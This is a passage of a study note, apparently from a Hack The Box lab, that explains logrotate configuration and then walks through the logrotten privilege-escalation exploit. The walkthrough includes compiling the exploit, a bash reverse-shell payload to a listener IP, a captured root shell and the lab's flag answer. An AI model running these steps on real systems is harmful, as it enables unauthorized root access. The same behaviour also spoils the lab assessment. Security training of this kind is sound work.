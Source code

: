 ```yaml
---
description: >-
  Every Linux system produces large amounts of log files. To prevent the hard
  disk from overflowing, a tool called logrotate takes care of archiving or
  disposing of old logs.
---
```


# Logrotate

`Logrotate` has many features for managing these log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

```shell-session
man logrotate
$ # or
$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

```bash
cat /etc/logrotate.conf

# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate/status` or use the `-f`/`--force` option:

```bash
sudo cat /var/lib/logrotate/status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```bash
ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```bash
cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

## Exploit

there are few requirments that we have to meet inorder to exploit logrotate.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

{% embed url="https://github.com/whotwagner/logrotten" %}
prefabricated exploit that we can use for this if the requirements are met.
{% endembed %}

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

We need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

If "create"-option is set in logrotate.cfg:

```
./logrotten -p ./payload /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:

```
./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log
```

```shell-session
nc -nlvp 9001
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Escalate the privileges and submit the contents of flag.txt as the answer.

```
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
```

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption><p>the logrotate is running as root</p></figcaption></figure>

```
htb-student@ubuntu:~$ cd logrotten/
htb-student@ubuntu:~/logrotten$ ls
logrotten.c  logrotten.png  README.md  test
htb-student@ubuntu:~/logrotten$ gcc logrotten.c -o logrotten
htb-student@ubuntu:~/logrotten$ echo 'bash -i >& /dev/tcp/10.10.14.2/7890 0>&1' > payload
```

Find the writeable log file

```
htb-student@ubuntu:~/logrotten$ find / -type f -writable -name *.log 2>/dev/null
/home/htb-student/backups/access.log
```

Confirm the writable log file

```
htb-student@ubuntu:~/logrotten$ cd /home/htb-student/
htb-student@ubuntu:~$ ls
backups  logrotten  pspy64
htb-student@ubuntu:~$ cd backups/
htb-student@ubuntu:~/backups$ ls
access.log  access.log.1  access.log.2  access.log.3
htb-student@ubuntu:~/backups$ cat *.log
htb-student@ubuntu:~/backups$ cat *.log*
test_log
test_log
```

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption><p>start nc, run logrotten, trigger log</p></figcaption></figure>

```
root@ubuntu:~# ls 
ls
cron_root
flag.txt
log.cfg
log.sh
reset.sh
snap
root@ubuntu:~# cat flag.txt
cat flag.txt
HTB{l0G_r0t7t73N_00ps}
root@ubuntu:~#   
```

The session will be terminated very fast so read the file quickly!!
